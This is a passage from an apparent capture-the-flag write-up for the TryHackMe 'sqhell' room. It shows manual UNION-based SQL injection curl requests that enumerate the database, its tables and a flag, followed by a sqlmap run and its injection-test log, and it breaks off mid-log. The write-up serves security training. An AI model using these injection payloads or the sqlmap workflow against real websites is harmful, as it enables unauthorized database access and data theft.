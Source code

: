 ```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,database(),4" | grep -A 1 panel-body 
                <div class="panel-body">
                    sqhell_5                </div>
```

Now find the tables in it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()" | grep -A 1 panel-body
                <div class="panel-body">
                    flag,posts,users                </div>
```

Then get the flag from the table:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag" | grep -A 1 panel-body
                <div class="panel-body">
                    THM{FLAG5:<HIDDEN>}                </div>
```

## Flag 5 - In-Band/Union - SQLMap Method

Moving on to SQLMap and like flag 1, this is pretty simple. First check for the post page parameter for vulnerability and find any databases:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbs --dbms=mysql --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:41:33 /2021-06-10/
[22:41:33] [INFO] testing connection to the target URL
[22:41:33] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:41:33] [INFO] testing if the target URL content is stable
[22:41:33] [INFO] target URL content is stable
[22:41:33] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:41:33] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:41:33] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:41:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:41:34] [WARNING] reflective value(s) found and filtering out
[22:41:35] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="View")
[22:41:35] [INFO] testing 'Generic inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
```